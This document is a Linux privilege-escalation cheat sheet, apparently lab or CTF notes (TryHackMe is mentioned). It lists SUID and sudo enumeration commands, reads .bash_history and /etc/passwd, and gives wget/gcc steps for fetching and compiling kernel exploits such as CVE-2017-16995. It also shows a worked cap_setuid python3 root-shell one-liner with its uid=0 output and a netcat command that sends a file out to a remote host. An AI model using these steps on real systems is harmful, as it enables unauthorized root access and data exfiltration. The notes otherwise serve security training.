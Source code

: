 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - find / -type f -perm -u=s -exec ls -ldb {} \; 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd    
    - Using kit
        - [linpeas.sh] Auto Vector Finding
- Maintain Access    
TOOLS
- Exploit
- GTFOBins
- Python Library Hijacking
- Environment variables
OUPUT:
- root shell


## Exploit
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2014-4014]
    https://www.exploit-db.com/exploits/33824
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable
[tmux]
    tmux -S default attach
[Capability]
    getcap -r / 2>/dev/null
        /home/kiba/.hackmeplease/python3 = cap_setuid+ep
        /usr/bin/mtr = cap_net_raw+ep
        /usr/bin/traceroute6.iputils = cap_net_raw+ep
        /usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
    cd /home/kiba/.hackmeplease    
    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    id
        uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

## Transferring file using Netcat:
- on the remote host 
    nc 10.8.56.2 443 < tryhackme.asc
- on the local host
    sudo nc -lvnp 443 > tryhackme.asc




